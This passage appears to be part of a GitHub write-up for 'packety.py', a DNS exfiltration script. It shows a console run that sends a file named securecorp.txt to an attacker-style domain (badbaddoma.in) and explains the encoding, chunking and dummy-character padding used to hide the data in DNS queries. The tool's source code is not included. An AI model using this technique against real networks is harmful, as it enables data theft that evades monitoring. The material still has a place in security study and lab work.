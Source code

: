 2. packety.py ( https://github.com/kleosdc/dns-exfil-infil )

When [packety.py](http://packety.py/) is executed, you will need to supply the script with the following input:

 **Filename**: ( This is the file(Text file RECOMMENDED) that you are trying to exfiltrate from SecureCorp's Network )

 **Domain name**: ( This is where you are going to put your domain name, example my domain name is badbaddoma.in )

![img](assets/2.1.png)

```powershell
python packety.py

Filename: securecorp.txt

Domain Name (Example: badbaddoma.in): badbaddoma.in

[+] Reading file.

[+] Base64 encoded.

[+] Base58 encoded.

Start transmitting... [PRESS ENTER KEY]
```

The code starts off by reading from the text file. The text file's content  will first be Base64 encoded and then Base58 encoded. This leaves us  with a long encoded string. The string is then split into 20 character  long sections where each section will have 3 'dummy' characters added to it for further obfuscation. One character will be prepended to the  encoded string and two characters will be appended.

For example, a section of the encoded data might look like this: '**6gfghhjywsas3rg4hda3**'. After the extra characters are added it will end up being '**x6gfghhjywsas3rg4hda3yu**'.

Once everything is encoded and ready, the code will wait  for the user to press "ENTER" in order to start transmitting the queries to the DNS Server. The DNS Server would have already been setup to capture the incoming requests with 'Wireshark' or 'tshark'.

![img](assets/3.png)
